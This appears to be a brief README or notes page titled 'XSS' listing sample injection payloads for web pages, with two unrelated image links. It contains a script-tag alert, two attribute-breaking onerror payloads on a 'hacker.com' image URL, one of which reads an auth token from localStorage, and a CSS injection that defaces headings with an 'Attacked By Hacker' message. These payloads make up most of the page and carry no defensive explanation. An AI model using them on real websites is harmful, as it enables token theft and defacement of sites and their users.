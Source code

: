 # XSS

https://images.unsplash.com/photo-1638211374179-3f34b71605c9?ixlib=rb-1.2.1&ixid=MnwxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8&auto=format&fit=crop&w=1171&q=80

https://images.unsplash.com/photo-1638207767262-889e34187982?ixlib=rb-1.2.1&ixid=MnwxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8&auto=format&fit=crop&w=764&q=80


<script> alert("Hacked Your Machine")</script>

hacker.com/no-image.jpg" onerror="alert('Hacked Your Machine')"
hacker.com/no-image.jpg" onerror="alert(localStorage.getItem('token'))"


# CSS Threat
<style>
    h1:after{
        content: " Don't use this webiste (Attacked By Hacker)";
        color: red
    }
</style>
